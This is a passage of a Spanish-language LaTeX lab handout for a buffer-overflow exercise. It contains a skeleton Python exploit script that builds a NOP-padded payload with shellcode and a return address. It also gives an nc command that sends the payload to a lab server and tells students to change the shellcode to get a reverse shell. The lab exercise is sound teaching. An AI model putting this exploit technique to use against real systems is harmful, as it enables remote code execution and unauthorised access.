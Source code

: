 \newcommand{\needtochange}{\ding{73} Necesita completarse \ding{73}}


\begin{lstlisting}[language=python, caption={The skeleton exploit code (\texttt{exploit.py})}]
#!/usr/bin/python3
import sys

# You can copy and paste the shellcode from Task 1
shellcode = (
  ""                     # (*@\needtochange@*)
).encode('latin-1')

# Fill the content with NOP's
content = bytearray(0x90 for i in range(517))

##################################################################
# Put the shellcode somewhere in the payload
start =  0               # (*@\needtochange@*)
content[start:start + len(shellcode)] = shellcode

# Decide the return address value 
# and save it somewhere in the payload
ret    = 0xAABBCCDD      # (*@\needtochange@*)
offset = 0               # (*@\needtochange@*)

# Use 4 for 32-bit address and 8 for 64-bit address
content[offset:offset + 4] = (ret).to_bytes(4,byteorder='little')
##################################################################

# Write the content to a file
with open('badfile', 'wb') as f:
  f.write(content)
\end{lstlisting}

Al terminar de completar el programa anterior, debe correrlo. Esto generará el contenido para el archivo \texttt{badfile}. Una vez generado debe ser enviado al servidor vulnerable. Si el exploit es implementado de manera correcta, el código del shellcode será ejecutado. 
Si el comando usado genera algún output este será mostrado en dentro de los mensajes del contenedor. Por favor incluya las pruebas que muestren que su servidor vulnerable ha sido capaz de correr los siguientes comandos.

\begin{lstlisting}
$./exploit.py   // create the badfile
$ cat badfile | nc 10.9.0.5 9090
\end{lstlisting}
 

\paragraph{Shell Reversa.}
Dado que estamos haciendo un ataque a un servidor remoto desde nuestra máquina local, no nos servirá de mucho correr \texttt{/bin/sh} en el servidor vulnerable, ya que será ejecutado de forma local y no podremos tener el control sobre este shell desde nuestro lado. Una de las técnicas más comúnes para lograr control sobre este shell de forma remota es la Shell Reversa. En la Sección \ref{sec:guildelines} se explica como correr una shell reversa.
Ud. deberá de modificar la cadena de comandos en el shellcode, para poder obtener una shell reversa en el servidor vulnerable.
Por favor incluya las explicaciones pertinentes junto con los screenshots de este procedimiento en el informe del laboratorio.


